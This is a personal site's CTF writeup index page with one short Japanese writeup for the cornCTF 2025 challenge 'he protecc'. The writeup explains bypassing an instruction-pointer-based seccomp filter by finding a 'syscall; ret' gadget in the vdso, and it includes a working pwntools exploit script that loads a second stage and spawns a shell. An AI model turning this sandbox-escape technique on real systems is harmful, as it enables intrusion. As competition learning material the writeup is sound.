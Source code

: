 ```yaml
---
layout: page
title: CTF Writeups
nav_order: 3
description: "Collection of CTF competition writeups"
permalink: /writeups/
has_children: true
---
```


# CTF Writeups

This section contains writeups for various Capture The Flag (CTF) competitions I've participated in. These documents explain my approach, techniques used, and solutions for various security challenges.

## Available Writeups

- [SECCON 2022](/writeups/SECCON)
- [TSG LIVE 9 CTF](/writeups/TSG_LIVE_9)
- [ASIS CTF 2023](/writeups/ASIS_CTF_2023)
- [vsCTF 2023](/writeups/vsCTF2023)
- [DEFCON Quals 2024](/writeups/DEFCON-quals-2024)
- [SECCON 2024 Quals](/writeups/SECCON-quals-2024)
- [SECCON 2024 Final](/writeups/SECCON-final-2024)
- [AlpacaHack Round 10](/writeups/AlpacaHack-Round-10)
- [TsukuCTF 2025](/writeups/TsukuCTF2025)
- [IERAE CTF 2025](/writeups/IERAE_CTF_2025)

## Misc Writeups

### cornCTF 2025

#### he protecc

バイナリが渡される。
`READ | WRITE| EXEC` な領域が、固定アドレス`0x500000`に取られ、任意のコードを書き込み実行できる。

```plaintext
      0x400000           0x401000 r--p     1000      0 protected
      0x401000           0x4a2000 r-xp    a1000   1000 protected
      0x4a2000           0x4ca000 r--p    28000  a2000 protected
      0x4ca000           0x4cf000 r--p     5000  ca000 protected
      0x4cf000           0x4d1000 rw-p     2000  cf000 protected
      0x4d1000           0x4d7000 rw-p     6000      0 [anon_004d1]
      0x4d7000           0x4f9000 rw-p    22000      0 [heap]
      0x500000           0x501000 rwxp     1000      0 [anon_00500]
0x7ffff7ff7000     0x7ffff7ffb000 r--p     4000      0 [vvar]
0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000      0 [vvar_vclock]
0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
```

しかし、SECCOMPによってあらゆるシステムコールが禁止されている。

```plaintext
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 # 0x3fffff
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 # 0x4b7fff
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 # 0x4fffff
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 # 0x500fff
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767   # 0x7fff
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

システムコールが実行可能なのは`vdso`領域ぐらいだが、ここには

```
0x0000000000000fad: syscall; ret;
```

こんなガジェットがある。また、`vdso`のベースアドレスは`_dl_sysinfo_dso`からリークできる。

ただ、`vdso`はカーネルによって異なるので、シェルコード内で該当の命令を探し、それをガジェットとして使う。

```bash
$ asm -c amd64 'syscall; ret'
0f05c3
```

あとはいい感じに飛べば良い。

<details>
<summary>
exploit.py
</summary>

```py
from typing import List, Any, Dict
import time
from pwn import context, gdb, ELF, shellcraft, tube, pack, unpack, log, process, p64, p32, SigreturnFrame, ROP, asm, disasm, remote
from libpwncof import PayloadBuffer, LabelRef, create_ucontext

context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug"
# context.log_level = "info"

path = "./protected"
elf = ELF(path)
context.binary = elf

# io: tube = gdb.debug(path)
# io: tube = remote('he-protecc.challs.cornc.tf', 1337, ssl=True)
io: tube = process(path)
# io: tube = remote("127.0.0.1", 10000)

# -1f05c3: syscall; ret

code = f"""
    mov r15, [{elf.symbols['_dl_sysinfo_dso']}]

check:
    cmp byte ptr [r15 + 0], 0x0f
    jne fail
    cmp byte ptr [r15 + 1], 0x05
    jne fail
    cmp byte ptr [r15 + 2], 0xc3
    jne fail

    jmp found

fail:
    inc r15
    jmp check

found:
    mov rdi, 0x501000
    mov rsi, 0x1000
    mov rdx, 0x7
    mov r10, 0x22
    mov r8, 0xffffffff
    mov r9, 0
    mov rax, 9
    call r15

    mov rdi, 0
    mov rsi, 0x501000
    mov rdx, 0x1000
    mov rax, 0
    call r15

    mov r15, 0x501000
    jmp r15
"""

a = asm(code)

io.recvuntil("How")
io.sendline(str(len(a)).encode())

io.send(a)

time.sleep(1)
code2 = shellcraft.sh()
a = asm(code2)

io.send(a)
time.sleep(1)

io.interactive()
```

</details>
